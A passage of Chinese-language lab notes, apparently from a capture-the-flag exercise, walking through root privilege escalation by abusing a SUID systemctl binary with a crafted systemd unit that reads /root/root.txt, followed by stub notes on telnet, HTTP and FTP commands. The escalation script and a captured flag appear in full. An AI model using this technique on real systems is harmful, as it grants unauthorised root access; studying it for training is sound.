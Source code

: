 ## 漏洞大学
检查GTFOBins上的 systemctl 二进制文件将给出一些结果。

阅读本文我们将对漏洞利用有一个基本的了解。

第一行可以跳过，漏洞利用如下所示：
``````
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
``````
我们可以根据自己的喜好进行更改：我们希望根据任务查看/root/root.txt文件的内容。让我们修改 SystemD 单元来访问该文件并将其内容定向到/tmp/output文件！
``````
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
``````
整个利用过程如下所示：
``````
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
``````
``````
cat /tmp/output
a58ff8579f0a9270368d33a9966c7fd5
``````
回答完问题后，我们就结束了这个房间。

## 协议和服务器

### telnet

### 超文本传输协议-http

### 文件传输协议-ftp

连接命令：ftp 靶机IP   
列出文件：ls  
文件传输命令：get 文件名
